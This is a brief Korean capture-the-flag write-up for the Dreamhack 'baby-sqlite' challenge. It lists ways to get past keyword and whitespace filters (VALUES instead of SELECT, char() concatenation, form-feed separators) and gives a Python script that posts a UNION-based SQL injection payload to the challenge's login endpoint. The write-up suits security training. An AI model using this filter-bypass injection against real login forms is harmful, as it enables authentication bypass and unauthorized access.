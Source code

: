 # baby-sqlite

문제에서 admin, select, 그리고 여러 공백 문자를 필터링 하고 있다.   
<br/>

* UNION 사용
* sqlite에서 select는 VALUES로 우회 가능
* admin은 char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e)처럼 우회 가능   
<br/>

```
import requests

def main():
	url = 'http://host1.dreamhack.games:22082/login'

	data = {
		'uid':'aaaa',
		'upw':'aaaa',
		'level':'1234\x0cUNION\x0cVALUES(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))'
	}

	response = requests.post(url, data=data)
	print response.text


if __name__=='__main__':
	main()
```
